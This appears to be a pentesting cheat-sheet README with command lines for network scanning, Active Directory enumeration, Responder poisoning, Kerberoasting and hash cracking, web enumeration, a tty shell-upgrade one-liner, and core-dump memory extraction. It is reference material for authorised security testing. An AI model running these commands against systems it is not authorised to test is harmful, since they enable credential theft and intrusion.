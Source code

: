 

Some pentesting stuff about Windows/AD & Linux.

Useful links
------------
- Wordlists : <https://github.com/danielmiessler/SecLists>
- PrivEsc Linux & Windows : <https://github.com/carlospolop/PEASS-ng>
- PrivEsc Linux : <https://gtfobins.github.io/>
- PrivEsc Windows : <https://lolbas-project.github.io/#>
- Reverse Shells : <https://www.revshells.com>
- Windows / AD : <https://wadcoms.github.io/>
- OSINT : <https://www.couverture-mobile.fr/>

## Network Enumeration

Some stuff about network enums.

```markdown
nmap
----

# Host Discovery 
nmap -sn -v <IP>/CIDR
 
# TCP Scan
nmap -sS -sC -sV -oA <FILENAME>.tcp <IP> -v
 
# 1000 most common TCP ports on an IP range
nmap -sV --open <IP>/CIDR
 
# UDP Scan
nmap -sU -sS -sC -sV -oA <FILENAME>.udp <IP> -v
 
# 1000 most common UDP ports on an IP range
nmap -sU -sV --open <IP>/CIDR

 TIPS  
  - -p- : scan all ports
  - -Pn : to scan ports on Windows hosts
  
  
masscan
-------

# Fast scan of a big subnet with selected open ports 
masscan <IP>/CIDR --rate=10000 --ports <portsToScan> (ex. 80,443,445)


```

## Windows / Active Directory 

Some stuff about Windows & AD pentesting.

```markdown
Network Analysis

# Responder 
responder -I <interface> -vrd

```
```markdown
Enumeration 

# No creds
- enum4linux -a -u "" -p "" <DC IP> 
- enum4linux -a -u "guest" -p "" <DC IP>
 
- smbclient -U '%' -L //<DC IP> 
- smbclient -U 'guest%' -L //
 
- nmap -n -sV --script "ldap* and not brute" -p 389 <DC IP>

# With Creds
- impacket-GetADUsers.py -all -dc-ip <DC IP> <domain>/username
- enum4linux -a -u <USER> -p <PASSWORD> <DC IP> 
 
# CrackMapExec
- crackmapexec smb <DC IP> -u <USER> -p <PASSWORD> --groups --local-groups --loggedon-users --rid-brute --sessions --users --shares --pass-pol > cme_enum.txt
 
```
```markdown
SMB 
# Explore Shares
impacket-smbclient '<USER>:<PASSWORd>'@<DC IP>
 
```
```markdown
KERBEROS 

# Dump SPN users TGS
- GetUsersSPNs.py -request -dc-ip <IP-DC> <domain.local>/<USER> -outputfile impacket_TGS_<IP>.txt

# Crack TGS
- hashcat -m 13100 -a 0 tgs.hash /usr/share/wordlists/rockyou.txt --force
 
```


## Web Application
```markdown
Enumeration 

# dirsearch
- dirsearch -u <URL> -r
- dirb <URL> -r /usr/share/wordlists/dirb/common.txt
 
 
# wordpress
- wpscan --url <URL> (-e u : to enumerate WP users)


#
 
 
#
 

# Crypto
- ./testssl.sh -oA <filename> <URI>

 
# Reverse Shell
- Spawn a tty shell : python -c 'import pty; pty.spawn("/bin/sh")'

 ```
 
 ## REVERSE



```markdown
# Dump memory content with core dump

- run binary
- CTRL+Z, so binary is paused
- ps to find pid
- kill -SIGSEGV <pid>
- fg then the binary crash
- look at /var/crash for the binary crash log

apport-unpack <crashReport> <destFolder>
then strings destFolder/CoreDump
```
